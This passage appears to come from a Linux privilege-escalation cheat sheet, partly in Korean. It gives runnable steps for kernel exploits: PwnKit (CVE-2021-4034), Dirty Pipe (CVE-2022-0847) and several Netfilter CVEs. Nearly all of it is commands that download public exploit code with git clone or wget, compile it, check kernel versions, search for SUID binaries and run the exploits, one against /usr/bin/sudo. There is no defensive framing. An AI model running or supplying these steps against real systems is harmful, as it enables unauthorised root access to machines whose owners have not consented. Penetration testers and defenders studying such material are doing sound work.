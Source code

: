 cd CVE-2021-4034
gcc cve-2021-4034-poc.c -o poc
./poc
```

<br/><br/>
# Dirty Pipe
- [Dirty Pipe](https://dirtypipe.cm4all.com/)
- [CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)
- [Dirty Cow](https://dirtycow.ninja/)
- [PoC](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits) 

### Download Dirty Pipe Exploit
```
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh
```

### Verify Kernel Version
```uname -r```

### Exploitation
```./exploit-1```

### Find SUID Binaries
```find / -perm -4000 2>/dev/null```

### Exploitation
```./exploit-2 /usr/bin/sudo```

<br/><br/>
# Netfilter
- [CVE-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555)
- [CVE-2022-1015](https://github.com/pqlx/CVE-2022-1015)
- [CVE-2023-32233](https://github.com/Liuk3r/CVE-2023-32233)

### CVE-2021-22555
- 취약한 커널 버전: 2.6 - 5.11
```
uname -r
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
gcc -m32 -static exploit.c -o exploit
./exploit
```

### CVE-2022-25636
- [CVE-2022-25636](https://www.cvedetails.com/cve/CVE-2022-25636/)
- 취약한 커널 버전: 5.4 - 5.6.10
```
uname -r
git clone https://github.com/Bonfee/CVE-2022-25636.git
cd CVE-2022-25636
make
./exploit
```

### CVE-2023-32233
- 취약한 커널 버전: 6.3.1 이전
```
git clone https://github.com/Liuk3r/CVE-2023-32233
cd CVE-2023-32233
gcc -Wall -o exploit exploit.c -lmnl -lnftnl
./exploit